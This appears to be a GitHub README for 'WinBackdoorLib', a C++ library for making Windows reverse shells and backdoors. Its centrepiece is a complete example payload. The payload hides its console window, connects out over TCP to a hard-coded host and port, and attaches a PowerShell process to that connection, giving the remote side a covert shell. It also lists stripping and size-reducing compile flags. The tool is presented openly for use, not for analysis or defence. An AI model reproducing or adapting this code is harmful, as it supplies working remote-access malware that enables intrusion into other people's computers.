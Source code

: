 # WinBackdoorLib
a simple Lib to create "reverse shell or backdoor" simply with Windows API

![Image1](screen.PNG)


## example Payload :
  ```cpp
  //compile : g++ socket_winbd.cpp test_winbd.cpp -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
#include "socket_winbd.h" //to start, we're including our header in our file.

int main() // 
{
    FreeConsole(); // hide console
    SOCKET socks; // equ int socks;
    WSADATA wsa; // equ for wsa

    struct sockaddr_in session; //we declare the structure "sockaddr_in" which will be named session

    WSAStartup(MAKEWORD(2, 2), &wsa); // startup WSA
    socks = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0); // socket configuration

    session.sin_family = AF_INET; // socket Family (AF_INET)
    session.sin_addr.s_addr = inet_addr("192.168.1.20"); // set the address
    session.sin_port = htons(555); // set the port

    int c = connect(socks, session); // connect to remote host
    if (c != -1)
    {
        execute_process(socks, "powershell.exe"); // Handle Process
    }
    return 0;
}
  ```
<a href="https://unam3dd.github.io/WinbdDocs/">View Documentation</a>
<iframe width="420" height="315"
src="https://www.youtube.com/watch?v=_QK_7yL5704">
</iframe> 
